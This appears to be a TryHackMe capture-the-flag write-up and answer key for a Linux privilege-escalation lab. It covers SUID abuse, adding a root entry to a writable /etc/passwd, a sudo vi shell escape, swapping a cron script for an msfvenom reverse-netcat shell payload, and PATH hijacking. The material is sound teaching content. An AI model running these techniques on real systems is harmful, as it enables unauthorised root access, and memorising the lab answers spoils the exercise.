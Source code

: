 # [THM] - Common Linux Privesc

[Room link](https://tryhackme.com/room/commonlinuxprivesc)

--- 

 ## Task 1/2/3
  
**No aswer required**

--- 

## Task 5

1. First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.

**No aswer required**

2. What is the target's hostname?

**polobox**

3. Look at the output of /etc/passwd how many "user[x]" are there on the system?

**8**

4. How many available shells are there on the system?

**4**

5. What is the name of the bash script that is set to run every 5 minutes by cron?

**autoscript.sh**

6. What critical file has had its permissions changed to allow some users to write to it?

**/etc/passwd**

7. Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!

**No answer required**

---

## Task 5

1. What is the path of the file in user3's directory that stands out to you?

**/home/user3/shell**

2. We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it! We can do this by running: "./shell"

**No answer required**

3. Congratulations! You should now have a shell as root user, well done!

**No answer required**

---

## Task 6

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"

**No answer required**

2. Having read the information above, what direction privilege escalation is this attack?

**Vertical**

3. Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]" What is the hash created by using this command with the salt, "new" and the password "123"?

**$1$new$p7ptkEKU1HnaHpRtzNizS1**

4. Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

**new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0::/root:/bin/bash**

5. Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!

**No answer required**

6. Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!

**No answer required**

---

## Task 7

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"

**No answer required**

2. Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

**NOPASSWD**

3. So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.

**No answer required**

4. Now, type ":!sh" to open a shell!

**No answer required**

---

## Task 8

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"

**No answer required**

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom.

**No answer required**

3. What is the flag to specify a payload in msfvenom?

**-p**

4. Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"

**No answer required**

5. What directory is the "autoscript.sh" under?

**/home/user4/Desktop**

6. Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

**No answer required**

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvnp 8888" and wait for our shell to land!

**No answer required**

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

**No answer required**

---

## Task 9

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"

**No answer required**

2. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

**ls**

3. Now we know what command to imitate, let's change directory to "tmp".

**No answer required**

4. What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

**echo "/bin/bash" > ls**

5. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

**chmod +x ls**

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH"

**No answer required**

7. Now, change directory back to user5's home directory.

**No answer required**

8. Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!

**No answer required**

---

## Task 10

**No answer required**
